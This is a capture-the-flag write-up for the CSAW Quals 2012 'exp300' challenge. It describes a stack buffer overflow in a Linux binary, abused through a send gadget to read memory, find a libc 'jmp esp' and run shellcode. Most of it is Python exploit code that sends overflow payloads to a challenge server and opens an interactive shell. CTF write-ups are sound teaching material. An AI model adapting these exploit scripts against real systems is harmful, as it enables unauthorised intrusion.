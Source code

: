 ```yaml
---
title: CSAW Quals 2012 &mdash; exp300
layout: post
authors:
  - Alex Reece <awreece>
categories:
  - Pwn
ctf: CSAW Quals
year: 2012
---
```

## Overview

[聊天][1] is an Linux x86 binary that uses signal handlers to print a bunch of Chinese before overflowing a buffer. With a send gadget giving us an arbitrary read, we can find a `jmp esp` in libc and jump to our shellcode on the (executable) stack.

<!--more-->

## Writeup

We reverse the binary, and see that main forks, drops privileges, and then raises signals until eventually the function below is called.

We have a buffer overflow and hence control of `eip`, but unfortunately nothing else. Luckily, there is a call to `send` elsewhere in the code (that also loads the correct `fd`, etc for us).

This works for us, since `edx = 0x800` at the return of our vulnerable function. We thus have a way to read `0x800` bytes from an arbitrary memory address

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

def read_mem(addr):
        print "Sleeping before reading %x" % addr
        time.sleep(.5)
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('128.238.66.218', 4842))
        # s.connect(('127.0.0.1', 4842))
        f = s.makefile('rw', bufsize=0)

        send_buf = 0x804890e

        payload = (
                "A"*326 +
                struct.pack('I', send_buf) +
                "AAAA"*11 +
                struct.pack('I', addr) +
                "BBBB"
        )

        f.write(payload)
        x = f.read(116)
        f.flush()

        buf = f.read(0x800)
        f.close()

        return buf
```

Our general strategy at this point will be: read the GOT entries to find a libc address, then search in libc for a `jmp esp` gadget, then use that to return to our shellcode (`jmp esp` works since we know that NX is disabled). Here is the solution:

```
#!/usr/bin/python
import struct
import socket
import telnetlib
import sys
import string

def find_jmp_esp():
        gots = read_mem(0x804B000)  # The offset of the got entries.

        setsockopt = struct.unpack('I', gots[:4])[0]
        libc_guess = setsockopt - 0xEC6D0  # Where setsockopt is located on my ubuntu machine.

        buf_base = libc_guess - (libc_guess % 0x1000)

        buf = read_mem(buf_base)
        while buf:
                jmp_esp = buf.find("\xff\xe4")  # jmp esp
                if jmp_esp != -1:
                        return buf_base + jmp_esp
                else:
                        buf_base += len(buf)
                        buf = read_mem(buf_base)

        return 0

def solve(jmp_esp):
        payload = (
                "A"*326 +
                struct.pack('I', jmp_esp)+
                shellcode
        )

        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect(('128.238.66.218', 4842))
        # s.connect(('127.0.0.1', 4842))
        f = s.makefile('rw', bufsize=0)

        f.write(payload)

        t = telnetlib.Telnet()
        t.sock = s
        t.interact()

jmp_esp = find_jmp_esp()

print "Found jmp_esp at %x" % jmp_esp

solve(jmp_esp)
```

 [1]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/exp300.tar.gz
 [2]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.10.27-PM.png
 [3]: http://ppp.cylab.cmu.edu/wordpress/wp-content/uploads/2012/10/Screen-Shot-2012-10-01-at-2.32.23-PM.png